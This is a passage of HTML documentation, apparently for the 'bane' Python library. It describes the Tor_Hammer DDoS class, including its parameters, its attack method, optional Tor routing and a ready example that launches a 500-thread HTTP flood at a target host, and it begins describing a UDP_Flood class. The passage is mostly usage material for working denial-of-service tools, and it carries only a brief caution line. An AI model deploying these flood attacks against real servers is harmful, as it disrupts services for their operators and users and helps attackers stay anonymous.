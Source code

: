     <li><code>min_content</code> (int): Minimum content length of the HTTP requests (default is 10000 bytes).</li>
    <li><code>ssl_on</code> (bool): Enable SSL/TLS for socket connections (default is False).</li>
    <li><code>paths</code> (list): List of paths to be used in the HTTP requests (default is ['/']).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the DDoS attack on the target server by sending a large number of HTTP requests with random content lengths. It can switch between using the Tor network and direct connections based on the <code>tor</code> parameter. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>Tor_Hammer</code> class, create an instance of it by providing the required parameters, and it will start performing a DDoS attack on the target URL or IP address in the background. Here's an example:</p>

<pre><code>
from bane.ddos import Tor_Hammer

#Create an instance of Tor_Hammer
tor_hammer_attack = Tor_Hammer(
    "example.com",
    p=80,
    cookie=None,
    user_agents=None,
    threads_daemon=True,
    threads=500,
    timeout=5,
    tor=False,
    duration=60,
    logs=False,
    max_content=15000,
    min_content=10000,
    ssl_on=False,
    paths=['/']
)

#DDoS attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set tor_hammer_attack.stop = True

#Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>
<h1>UDP_Flood Class</h1>

<h2>Class Overview</h2>
<p>The <code>UDP_Flood</code> class is part of the "bane" module and is used to perform a DDoS attack by flooding a target server with UDP (User Datagram Protocol) packets. UDP is a connectionless protocol, and this attack generates a large volume of UDP packets to overwhelm the target.</p>

<h2>Class Constructor</h2>
<pre><code>class UDP_Flood(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>UDP_Flood</code> class with the following parameters:</p>

